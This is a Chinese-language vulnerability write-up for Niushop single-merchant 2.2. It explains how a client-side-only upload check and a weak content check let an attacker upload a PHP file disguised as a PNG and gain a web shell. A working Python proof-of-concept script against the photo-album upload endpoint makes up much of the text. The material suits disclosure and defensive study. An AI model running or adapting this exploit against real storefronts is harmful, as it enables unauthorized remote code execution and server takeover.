 # Niushop 单商户 2.2 前台getshell

### 一、漏洞简介

### 二、漏洞影响

Version：单商户 2.2

### 三、复现过程

![](images/15891970861374.jpg)


上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](images/15891970946552.jpg)


所以导致前台getshell

poc


```python
import requests

session = requests.Session()

paramsGet = {"s":"/wap/upload/photoalbumupload"}
paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
cookies = {"action":"finish"}
response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### 参考链接

https://y4er.com/post/niushop-getshell/